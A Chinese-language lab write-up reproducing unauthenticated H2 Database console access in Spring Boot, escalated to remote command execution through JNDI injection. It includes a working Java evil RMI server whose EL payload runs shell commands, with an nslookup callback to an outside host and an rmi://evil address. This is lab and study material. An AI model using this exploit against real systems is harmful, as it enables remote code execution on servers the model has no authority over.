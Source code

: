 # H2 Database Console 未授权访问

H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

利用这个管理页面，我们可以进行JNDI注入攻击，进而在目标环境下执行任意命令。

参考链接：

- <https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e>

## 漏洞环境

执行如下命令启动一个Springboot + h2database环境：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/h2-console/`即可查看到H2 database的管理页面。

## 漏洞复现

目标环境是Java 8u252，版本较高，因为上下文是Tomcat环境，我们可以参考《[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)》，使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

我们可以借助这个小工具[JNDI](https://github.com/JosephTribbianni/JNDI)简化我们的复现过程。

首先设置JNDI工具中执行的命令为`touch /tmp/success`：

![](3.png)

然后启动`JNDI-1.0-all.jar`，在h2 console页面填入JNDI类名和URL地址：

![](1.png)

其中，`javax.naming.InitialContext`是JNDI的工厂类，URL `rmi://evil:23456/BypassByEL`是运行JNDI工具监听的RMI地址。

点击连接后，恶意RMI成功接收到请求：

![](2.png)

`touch /tmp/success`已成功执行：

![](4.png)